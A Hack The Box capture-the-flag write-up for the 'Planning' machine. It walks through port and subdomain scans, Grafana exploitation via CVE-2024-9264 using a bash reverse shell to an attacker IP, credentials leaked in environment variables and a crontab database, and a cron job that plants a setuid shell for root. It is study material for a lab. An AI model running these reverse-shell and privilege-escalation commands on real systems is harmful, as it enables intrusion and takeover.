

# HTB Writeup – Planning


# RECON

## Creds

Credential: `admin / 0D5oT70Fq13EvB5r`

## Port Scan

```sh
$ rustscan -a $ip --ulimit 2000 -r 1-65535 -- -A -Pn

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Subdomain

```sh
$ ffuf -c -u "http://planning.htb" -H "Host: FUZZ.planning.htb" -w ~/wordlists/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -t 20 -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /home/Axura/wordlists/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 370ms]
:: Progress: [17661/1613291] :: Job [1/1] :: 46 req/sec :: Duration: [0:06:53] :: Errors: 0 ::
```


## Dirsearch


```sh
$ dirsearch -u 'http://grafana.planning.htb/'

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: http://grafana.planning.htb/

[01:23:11] Scanning:
[01:23:42] 302 -    24B - /admin  ->  /
[01:23:43] 302 -    24B - /admin/  ->  /
[01:24:07] 401 -   102B - /api-doc
[01:24:07] 401 -   102B - /api
[01:24:07] 401 -   102B - /api.py
[01:24:07] 401 -   102B - /api.php
[01:24:07] 401 -   102B - /api.json
[01:24:07] 401 -   102B - /api/
[01:24:07] 401 -   102B - /api/apidocs/swagger.json
[01:24:07] 401 -   102B - /api/apidocs
[01:24:07] 401 -   102B - /api/2/issue/createmeta
[01:24:07] 401 -   102B - /api/api
[01:24:07] 401 -   102B - /api-docs
[01:24:07] 401 -   102B - /api/_swagger_/
[01:24:07] 401 -   102B - /api/2/explore/
[01:24:07] 401 -   102B - /api/api-docs
[01:24:07] 401 -   102B - /api.log
[01:24:07] 401 -   102B - /api/__swagger__/
[01:24:07] 401 -   102B - /api/application.wadl
[01:24:07] 401 -   102B - /api/credential.json
[01:24:07] 401 -   102B - /api/config
[01:24:07] 401 -   102B - /api/cask/graphql
[01:24:07] 401 -   102B - /api/config.json
[01:24:07] 401 -   102B - /api/database.json
[01:24:07] 401 -   102B - /api/batch
[01:24:07] 401 -   102B - /api/credentials.json
[01:24:07] 401 -   102B - /api/jsonws
[01:24:07] 401 -   102B - /api/docs/
[01:24:07] 401 -   102B - /api/error_log
[01:24:07] 401 -   102B - /api/docs
[01:24:07] 401 -   102B - /api/index.html
[01:24:07] 401 -   102B - /api/login.json
[01:24:07] 401 -   102B - /api/package_search/v4/documentation
[01:24:07] 401 -   102B - /api/proxy
[01:24:07] 401 -   102B - /api/jsonws/invoke
[01:24:07] 401 -   102B - /api/swagger
[01:24:07] 401 -   102B - /api/profile
[01:24:07] 401 -   102B - /api/snapshots
[01:24:07] 401 -   102B - /api/swagger.json
[01:24:07] 401 -   102B - /api/swagger.yml
[01:24:07] 401 -   102B - /api/swagger/swagger
[01:24:07] 401 -   102B - /api/spec/swagger.json
[01:24:07] 401 -   102B - /api/swagger-ui.html
[01:24:07] 401 -   102B - /api/swagger.yaml
[01:24:07] 401 -   102B - /api/swagger/index.html
[01:24:07] 401 -   102B - /api/user.json
[01:24:07] 401 -   102B - /api/timelion/run
[01:24:07] 401 -   102B - /api/users.json
[01:24:07] 401 -   102B - /api/swagger/static/index.html
[01:24:07] 401 -   102B - /api/swagger/ui/index
[01:24:07] 401 -   102B - /api/v1/swagger.json
[01:24:07] 401 -   102B - /api/v1/
[01:24:07] 401 -   102B - /api/v1
[01:24:07] 401 -   102B - /api/v2
[01:24:07] 401 -   102B - /api/v1/swagger.yaml
[01:24:07] 401 -   102B - /api/v2/
[01:24:07] 401 -   102B - /api/v2/helpdesk/discover
[01:24:07] 401 -   102B - /api/v2/swagger.json
[01:24:07] 401 -   102B - /api/v2/swagger.yaml
[01:24:07] 401 -   102B - /api/v4
[01:24:08] 401 -   102B - /api/v3
[01:24:08] 401 -   102B - /api/vendor/phpunit/phpunit/phpunit
[01:24:08] 401 -   102B - /api/version
[01:24:08] 401 -   102B - /api/whoami
[01:24:08] 401 -   102B - /apis
[01:24:08] 401 -   102B - /apibuild.pyc
[01:24:08] 401 -   102B - /apidocs
[01:24:08] 401 -   102B - /apidoc
[01:24:08] 401 -   102B - /apiserver-aggregator.cert
[01:24:08] 401 -   102B - /apiserver-aggregator-ca.cert
[01:24:08] 401 -   102B - /apiserver-key.pem
[01:24:08] 401 -   102B - /apiserver-client.crt
[01:24:08] 401 -   102B - /apiserver-aggregator.key
[01:24:39] 200 -     2B - /healthz
[01:24:48] 200 -   37KB - /login
[01:24:48] 200 -   37KB - /login/
[01:24:53] 200 -  414KB - /metrics
[01:25:04] 302 -    24B - /plugins  ->  /
[01:25:04] 302 -    24B - /plugins/  ->  /
[01:25:04] 302 -    24B - /plugins/fckeditor  ->  /
[01:25:04] 302 -    24B - /plugins/tiny_mce  ->  /
[01:25:04] 302 -    24B - /plugins/tiny_mce/  ->  /
[01:25:04] 302 -    24B - /plugins/tinymce  ->  /
[01:25:04] 302 -    24B - /plugins/tinymce/  ->  /
[01:25:04] 302 -    24B - /plugins/upload.php  ->  /
[01:25:04] 302 -    24B - /plugins/web.config  ->  /
[01:25:07] 302 -    31B - /public  ->  /public/
[01:25:10] 200 -    26B - /robots.txt
[01:25:15] 200 -   37KB - /signup
[01:25:19] 200 -    3KB - /swagger
[01:25:19] 301 -    43B - /swagger-ui  ->  /swagger

Task Completed
```

# WEB

## Swagger UI

View Grafana settings:

```sh
curl -u admin:0D5oT70Fq13EvB5r http://grafana.planning.htb/api/admin/settings
```


```json
"database": {
  "type": "sqlite3",
  "path": "grafana.db",
  "host": "127.0.0.1:3306",
  "user": "root",
  "password": ""
}
```

Admin User Disclosure:

```json
"security": {
  "admin_user": "enzo"
}
```

## CVE-2024-9264

[Grafana Exploit](https://github.com/nollium/CVE-2024-9264)

```sh
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r\
    -c 'bash -c "bash -i >& /dev/tcp/10.10.14.140/4444 0>&1"'\
    http://grafana.planning.htb
```


# USER

Run LinPEAS on victim:

```sh
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
root           1  0.6  8.5 1835044 161988 ?      Ssl  03:01   2:18 grafana server --homepath=/usr/share/grafana --config=/etc/grafana/grafana.ini --packaging=docker cfg:default.log.mode=con
sole cfg:default.paths.data=/var/lib/grafana cfg:default.paths.logs=/var/log/grafana cfg:default.paths.plugins=/var/lib/grafana/plugins cfg:default.paths.provisioning=/etc/grafana/provision
ing
root          56  0.0  1.1 407968 22656 ?        Sl   09:05   0:00 /usr/local/bin/duckdb
root          62  0.0  0.0   2892  1536 ?        S    09:05   0:00  _ sh -c bash -c "bash -i >& /dev/tcp/10.10.14.140/4444 0>&1" >/tmp/grafana_cmd_output 2>&1
root          63  0.0  0.1   4364  3072 ?        S    09:05   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.140/4444 0>&1
root          64  0.0  0.1   4496  3584 ?        S    09:05   0:00          _ bash -i
root          73  0.2  0.2   6284  4864 ?        S    09:09   0:00              _ bash linpeas.sh
root        2741  0.0  0.1   6284  3684 ?        S    09:11   0:00                  _ bash linpeas.sh
root        2745  0.0  0.1   7208  3072 ?        R    09:11   0:00                  |   _ ps fauxwww
root        2744  0.0  0.1   6284  3428 ?        S    09:11   0:00                  _ bash linpeas.sh

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/grafana/grafana.db

╔══════════╣ Environment
╚ Any private information inside environment variables?
AWS_AUTH_SESSION_DURATION=15m
HISTSIZE=0
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
HISTFILE=/dev/null
AWS_AUTH_EXTERNAL_ID=
SHLVL=3
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HISTFILESIZE=0
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

```sh
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

Login ssh using creds for get user flag.

# ROOT

## Internal Enum

LinPEAS:

```sh
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 967, cookie 0x4, schema 4, UTF-8, version-valid-
for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 6, database pages 16, cookie 0x5, schema 4, UTF-8, version-valid-for 6
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5

-> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
-> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
-> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
```

view `/opt/contabs/crontab.db` using **jq**:

```sh
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

The `P4ssw0rdS0pRi0T3c` is not for `su root`.

## Cron

Tunnel port 8000.

```sh
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Visiting [http://localhost:8000]([http://localhost:8000).

Need username, and i use BP Intruder and get `root` for login.

Create New Job.

`cp /bin/bash /tmp/pwnme && chmod u+s /tmp/pwnme`

One click—“Run now.” Back in our shell:



Rooted.